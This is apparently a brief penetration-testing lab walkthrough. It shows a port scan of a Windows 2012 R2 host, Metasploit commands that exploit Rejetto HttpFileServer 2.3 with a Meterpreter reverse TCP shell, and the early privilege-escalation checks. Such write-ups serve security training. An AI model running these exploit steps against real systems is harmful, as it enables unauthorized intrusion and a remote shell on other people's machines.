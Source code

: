 ```bash
80/tcp    open  http 		 HttpFileServer httpd 2.3
135/tcp   open  msrpc		 Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
3389/tcp  open  ssl/ms-wbt-server?
49152/tcp open  msrpc 		 Microsoft Windows RPC
49153/tcp open  msrpc 		 Microsoft Windows RPC
49154/tcp open  msrpc 		 Microsoft Windows RPC
49155/tcp open  msrpc 		 Microsoft Windows RPC
49163/tcp open  msrpc 		 Microsoft Windows RPC
49175/tcp open  msrpc 		 Microsoft Windows RPC
```

### Exploitation / Meterpreter x64

```bash
search type:exploit name:rejetto
use exploit/windows/http/rejetto_hfs_exec
options
set payload windows/x64/meterpreter/reverse_tcp
run
```

```bash
sysinfo
    Computer        : VICTIM
    OS              : Windows 2012 R2 (6.3 Build 9600).
    Architecture    : x64
    System Language : en_US
    Domain          : WORKGROUP
    Logged On Users : 2
    Meterpreter     : x64/windows
```

### Privilege Escalation

```bash
getuid
	Server username: VICTIM\admin
	
getsystem
# gesystem fails

getprivs
    Enabled Process Privileges
    ==========================
    Name
    ----
    SeChangeNotifyPrivilege
    SeIncreaseWorkingSetPrivilege
    SeShutdownPrivilege
    SeTimeZonePrivilege
    SeUndockPrivilege
# "admin" user my be part of the Administrators group
```
